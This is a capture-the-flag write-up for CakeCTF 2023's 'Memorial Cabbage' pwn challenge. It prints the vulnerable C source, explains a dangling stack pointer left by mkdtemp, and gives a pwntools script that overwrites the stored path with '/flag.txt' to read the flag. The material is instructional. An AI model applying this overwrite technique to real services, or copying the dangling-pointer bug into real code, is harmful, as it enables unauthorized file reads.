 ```yaml
---
title: Memorial Cabbage
date: 2023-11-23T23:24:31+02:00
description: Writeup for Memorial Cabbage [Cakectf 2023]
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Author: ptr-yudai
Description: Memorial Cabbage Unit 3

## Intuition

We can see the below source code for the challenge. It creates a temporary directory using template ``/tmp/cabbage.XXXXXX`` and then uses it to write a memo to it (``/tmp/cabbage.XXXXXX/memo.txt``).

However, what is interesting to notice in the manpage for ``mkdtemp()`` is that you're supposed to give a modifiable buffer:

```
DESCRIPTION
       The  mkdtemp() function generates a uniquely named temporary directory from template.  The last six characters of template must be XXXXXX and these are replaced with a string that makes the directory name unique.  The directory is then created with permissions 0700.
       Since it will be modified, template must not be a string constant, but should be declared as a character array.

RETURN VALUE
       The mkdtemp() function returns a pointer to the modified template string on success, and NULL on failure, in which case errno is set appropriately.
```

The pointer returned by it will be pointing towards the buffer you gave it. If you give it a stack buffer (like in the source code provided), when the function frame is finished it should be out of scope and might get overwritten by other stack allocations. We can exploit this by writing as much content as we can until we hit the directory name that was saved on the stack, which is further used when reading/writing to the memo file. We can overwrite the directory name to ``/flag.txt\x00``, which is smaller in size than ``strlen(TEMPDIR_TEMPLATE)``. This means that the second strcpy in both ``memo_r()`` and ``memo_w()`` won't have an effect on our chosen filename, as it will copy ``/memo.txt`` somewhere after our filename and fopen will stop at the first NULL byte (provided by us in the filename).

Therefore, this should open ``/flag.txt`` and read the flag for us. We can find all the offsets needed in multiple ways, through calculating offsets by finding the addresses with GDB and then using simple substractions, or we can use De Bruijn sequences, etc.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Solution

```py
#!/usr/bin/env python3

from pwn import *

offset_to_filename = 0xff0  # found with gdb

target = process("./cabbage")
#target = remote("memorialcabbage.2023.cakectf.com", 9001)

target.sendlineafter(b"> ", b"1")
target.sendlineafter(b"Memo: ", b"a" * offset_to_filename + b"/flag.txt\x00")

target.sendlineafter(b"> ", b"2")
target.interactive()
```

### Flag

CakeCTF{.hidden_baby_we_eating_this_cabbage_cake}

(we lost the original flag lol and are writing this waaaay later)

